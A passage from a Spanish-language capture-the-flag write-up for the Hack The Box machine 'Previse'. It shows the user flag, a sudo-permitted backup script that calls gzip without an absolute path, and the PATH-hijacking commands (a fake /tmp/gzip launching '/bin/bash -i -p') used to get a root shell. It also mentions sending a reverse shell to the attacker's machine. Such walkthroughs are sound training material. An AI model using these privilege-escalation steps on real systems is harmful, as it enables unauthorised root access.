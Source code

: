 Pruebo a acceder mediante el servicio SSH como el usuario "m4lwhere", proporcionando la contraseña recién obtenida, y consigo acceder y visualizar la primera flag.

```
m4lwhere@previse:~$ cat user.txt

17965ba0b03270cb341178f081b0202e
```

## Escalada de privilegios

Durante la enumeración del sistema para la escalada de privilegios, compruebo mediante el comando "sudo -l" si puede ejecutarse algún archivo con privilegios de otro usuario o sin proporcionar contraseña. En este caso, se puede ejecutar "access_backup.sh" con privilegios de root.

```
m4lwhere@previse:~$ sudo -l

User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Tras revisar el script, veo que utiliza comandos sin emplear la ruta absoluta, por lo que este script sería vulnerable a un [Path Hijacking](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

```
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh

#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Para explotar la vulnerabilidad, creo un archivo con nombre "gzip" en la ruta "/tmp", cuya función será la de lanzar una bash, y agrego esta ruta al principio de la variable PATH.

```
m4lwhere@previse:~$ cat /tmp/gzip

/bin/bash -i -p

m4lwhere@previse:~$ export PATH=/tmp:$PATH
```

Con esto, una vez ejecute el script utilizando "sudo", obtendré una shell como root. Pero, como se ve en la siguiente imagen, no consigo ver la salida de los comandos que ejecuto, por lo que decido enviarme una shell a mi máquina de atacante y, de esta forma, ya veo la salida de los comandos y puedo visualizar la flag final.
